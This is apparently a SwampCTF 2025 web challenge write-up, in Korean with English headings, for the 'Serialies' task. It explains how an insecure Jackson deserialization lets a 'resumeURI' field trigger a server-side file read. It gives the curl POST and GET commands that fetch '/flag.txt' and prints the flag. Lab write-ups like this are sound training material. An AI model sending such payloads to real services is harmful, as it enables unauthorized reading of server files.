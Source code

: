 # 🐊 SwampCTF 2025 Writeup - [Serialies]

**Category:** [Web]  
**Points:** [20]  
**Tags:** `CTF`, `[Web]`, `swampctf`  

---
## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---

## 🔍 Recon

![문제 웹](./Pasted%20image%2020250403002659.png)
- 문제 웹 페이지와 소스코드 제공됨

---

## 🎯 The Goal

> 플래그를 얻기 위해 해야 할 주요 목표 정리

- [ ] 시스템 정보 수집
- [ ] 역직렬화 + 파일 읽기 취약점 유도

---

## 💉 Exploit

### 🛠️Step 1. 웹 페이지 접속 및 분석

![문제 웹](./Pasted%20image%2020250403002722.png)
```html
<html>
  <body>
    <h1>Whitelabel Error Page</h1>
    <p>
      This application has no explicit mapping for <code>/error</code>,  
      so you are seeing this as a fallback.
    </p>
    <div id="created">Wed Apr 02 02:18:16 UTC 2025</div>
    <div>
      There was an unexpected error (type=Not Found, status=404).
    </div>
  </body>
</html>
```

👉 별다른 정보 없음

### 🛠️Step 2. 소스코드 분석

📁 `\src\main\java\com\serialies\serialies\PersonController.java`
```java
...
@RestController
@RequestMapping("/api/person")
public class PersonController {
    ...
}
```

- `/api/person` 경로 확인됨
- `POST` 요청 시 `job.init()` 호출이 핵심

### 🛠️Step 3. /api/person 경로 접속

![문제 웹](./Pasted%20image%2020250403002800.png)

페이지 접속 후 flag 값 획득 가능
하지만 해당 방법으로 푸는 것은 아니라고 판단 후 다시 문제를 확인 

### 🛠️Step 4. PersonController 분석

- Job 객체가 `resumeURI` 값을 가지고 있고,
- `init()` 내에서 해당 경로의 파일을 열어봄 → **LFI 가능**

### 🛠️Step 5. Exploit

#### 📨 POST 요청
```
curl -X POST http://chals.swampctf.com:44444/api/person   -H "Content-Type: application/json"   -d '{
    "id": "11111111-1111-1111-1111-111111111111",
    "address": "somewhere",
    "job": {
      "resumeURI": "/flag.txt"
    }
}'
```

#### 🔎 GET 요청
```
curl http://chals.swampctf.com:44444/api/person/11111111-1111-1111-1111-111111111111
```

![문제 웹](./Pasted%20image%2020250403002852.png)
👉 flag 확인 성공

#### 🛠️ 사용한 도구
  - [x] curl

---

## 🍪 Info Leakage or Gain

- Java Jackson 기반 역직렬화 취약점
- @class 타입을 안전하지 않게 사용

---

## 👑 Accessing the Flag

```
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}
```

---

## 🧠 Conclusion

- **안전하지 않은 직렬화 방법** + **파일 읽기 취약점**
- JSON을 통해 직렬화된 객체를 그대로 받아들임
- `resumeURI` 값을 기반으로 서버가 **파일 내용을 자동으로 읽음**

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_